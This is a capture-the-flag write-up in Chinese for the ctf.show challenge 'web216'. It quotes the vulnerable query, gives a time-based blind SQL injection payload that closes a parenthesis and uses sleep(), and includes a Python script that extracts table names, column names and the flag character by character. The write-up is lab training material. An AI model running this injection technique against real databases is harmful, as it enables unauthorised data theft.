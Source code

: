 ## web216~括号闭合

> ```
> where id = from_base64($id);
> ```

payload:

```
debug=1&ip=1) or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1,sleep(5),0)and (1=1
```

```python
# @Author: yanmie

import requests

url = "http://5abfff46-12f9-4393-b2cc-6e1e1380b39f.chall.ctf.show/api/"

# payload = "1) or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},sleep(5),0)and (1=1"
# 得到 ctfshow_flagxcc,ctfshow_info
# payload = "1) or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'),{},1))>{},sleep(5),0)and (1=1"
# 得到 id,flagaac,info
payload = "1) or if(ascii(substr((select group_concat(flagaac) from ctfshow_flagxcc),{},1))>{},sleep(5),0) and (1=1"
# 得到 flag

i = 0
result = ""

while True:
    i += 1
    head = 0
    tail =127
    while head<tail:
        mid = (head+tail)//2
        data = {
            "debug" : 1,
            "ip" : payload.format(i,mid)
        }
        try:
            response = requests.post(url=url,data=data,timeout=2)
            # print(head,tail,mid)
            tail = mid
        except Exception as e:
            head = mid+1
    if head == 0:
        break
    result += chr(head)
    print(result.lower())

```
